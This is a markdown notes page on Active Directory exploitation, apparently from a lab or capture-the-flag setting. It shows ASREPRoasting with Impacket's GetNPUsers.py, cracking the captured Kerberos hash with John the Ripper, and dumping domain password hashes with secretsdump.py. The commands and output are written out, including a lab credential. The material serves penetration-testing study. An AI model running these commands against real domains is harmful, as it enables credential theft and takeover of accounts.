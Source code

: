 ```yaml
---
title: AD Exploitation
description: Introduction to Active directory exploitation.
---
```


# Active Directory - Exploitation

## ASREPRoasting

GetNPUsers.py : `Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking`

The only thing that's necessary to query accounts is a valid set of usernames.

```bash
$ GetNPUsers.py spookysec.local/ -dc-ip 10.10.169.152 -no-pass -usersfile valid_users.lst
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[-] User james@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:6f85816183fca475066c51e9261ec717$eafe07ec0e87349f2ab00582d7becda....
[-] User James@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[...]
```

Hash :
- Hashcat ID : 18200
- Name : Kerberos 5, etype 23, AS-REP

```bash
$ cat kerberos.hash
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:6f85816183fca475066c51e9261ec717$eafe...
$ john --wordlist=/opt/rockyou.txt kerberos.hash
[...]
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
managxxxxxxx   ($krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL)
```

## User synchronization

An account can have a permission that allows all Active Directory changes to be synced with an account. This includes password hashes. `secretsdump.py` allows you to retrieve all the passwords synced with the domain controller.

```bash
$ secretsdump.py -just-dc 'spookysec.local/backup:backup2517860@10.10.169.152'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94...:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[...]
```